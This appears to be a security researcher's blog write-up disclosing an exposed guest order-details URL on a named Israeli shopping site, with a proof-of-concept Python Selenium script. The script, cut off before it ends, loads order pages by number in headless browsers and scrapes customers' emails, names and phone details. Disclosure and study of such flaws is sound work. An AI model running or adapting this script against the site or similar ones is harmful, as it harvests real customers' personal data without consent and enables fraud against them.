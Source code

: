 ## How the data exposure was found.

Let's look on the techincal details, as soon as I entered the site and made an enumeration I found the following link:
`https://shoppi.co.il/profile/guest/order-details/<order_number>`
As you can see, the access to this landing page is registered on a `guest` profile, which mean, while the url was exposed, any guest could access this link. So ticket number can be generated randomly, the number itself is obviously different from each, and it can be number with 6 digit or event more.

The code I wrote is based on Python and uses a module called `selenium`, using this module which contains a class called `webdriver` actually makes it possible to render data from a landing page and display it in the way that we want to use in the code for dispay the data back.

Please note, **I do not show the credit card on that POC code**. This is important, because if I do show you the numbers, I allow scammers to commit scams by contact the buyers.

{% highlight python %}

#!/usr/bin/env python
from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.support.ui import WebDriverWait
from selenium.webdriver.support import expected_conditions as EC
import concurrent.futures

# Function to process each URL
def process_url(order_number):
    # Construct the URL for each order
    url = f"https://shoppi.co.il/profile/guest/order-details/{order_number}"
    
    # Set up Chrome options for headless mode
    options = webdriver.ChromeOptions()
    options.add_argument("--headless")  # Run in headless mode
    driver = webdriver.Chrome(options=options)
    
    try:
        # Navigate to the order details page
        driver.get(url)
        wait = WebDriverWait(driver, 10)
        
        # Search for specific words on the page
        keywords = ["@gmail.com", "שם", "אמייל", "טלפון", "מועד", "מצב"]
        found_elements = []
        for keyword in keywords:
            # Wait for the presence of an element containing the keyword
            dynamic_element = wait.until(EC.presence_of_element_located((By.XPATH, f"//*[contains(text(), '{keyword}')]")))
            found_elements.append(dynamic_element.text)
        
        # Create a result string with order details
        result = f"Order {order_number}: {' | '.join(found_elements)}"
        
        # Print the result to the screen